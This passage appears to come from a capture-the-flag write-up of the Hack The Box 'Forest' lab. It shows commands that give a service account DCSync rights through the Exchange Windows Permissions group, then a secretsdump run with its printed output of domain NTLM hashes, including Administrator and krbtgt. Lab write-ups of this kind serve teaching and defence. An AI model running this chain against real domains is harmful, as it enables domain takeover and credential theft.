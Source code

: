 ```
```

## Domain Enumeration - Sharphound (Invoke and Transfer)

TBU: base64 transfer

Now we have a graphical display of the AD, we know that Exchange Windows Permission is the weak spot

```
Adding user with DCSync Rights
C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" svc-alfresco /do /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
```


## Secretsdump.py 

Use the secretsdump Impacket script to dump the password hashes of all the users on the domain. ecretsdump.py. Secretsdump is a script used to extract credentials and secrets from a system. The main use-cases for it are the following: Dump NTLM hash of local users (remote SAM dump) Extract domain credentials via DCSync

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
```
